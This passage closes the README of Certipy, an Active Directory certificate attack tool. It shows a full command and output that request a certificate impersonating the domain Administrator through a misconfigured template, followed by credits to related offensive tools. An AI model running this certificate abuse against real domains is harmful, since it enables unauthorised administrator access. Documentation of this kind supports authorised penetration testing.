 ```bash
[*] Saved certificate and private key to 'administrator.pfx'
```

You can also specify the Application Policy OID directly.

```bash
certipy req -ca CORP-DC-CA -target-ip 192.168.4.178 -u 'user@corp.com' -p 'Password1' -template "WebServer" -upn "Administrator@corp.com" --application-policies '1.3.6.1.5.5.7.3.2'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'CORP.COM' at '127.0.0.53'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:192.168.4.178[\pipe\cert]
[+] Connected to endpoint: ncacn_np:192.168.4.178[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 33
[*] Got certificate with UPN 'Administrator@corp.com'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```


## Contact

Please submit any bugs, issues, questions, or feature requests under "Issues" or send them to me on Twitter [@ly4k_](https://twitter.com/ly4k_).

## Credits

- [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) for [Certified Pre-Owned](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) and [Certify](https://github.com/GhostPack/Certify)
- [Dirk-jan](https://twitter.com/_dirkjan) for [PKINITtools](https://github.com/dirkjanm/PKINITtools)
- [ShutdownRepo](https://github.com/ShutdownRepo) for [PyWhisker](https://github.com/ShutdownRepo/pywhisker)
- [zer1t0](https://github.com/zer1t0) for [certi](https://github.com/zer1t0/certi)
- [Ex Android Dev](https://github.com/ExAndroidDev) and [Tw1sm](https://github.com/Tw1sm) for Impacket's [adcsattack.py](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/examples/ntlmrelayx/attacks/httpattacks/adcsattack.py)
- [SecureAuthCorp](https://github.com/SecureAuthCorp) and all the [contributors](https://github.com/SecureAuthCorp/impacket/graphs/contributors) for [Impacket](https://github.com/SecureAuthCorp/impacket)
- [skelsec](https://github.com/skelsec) for [pypykatz](https://github.com/skelsec/pypykatz)
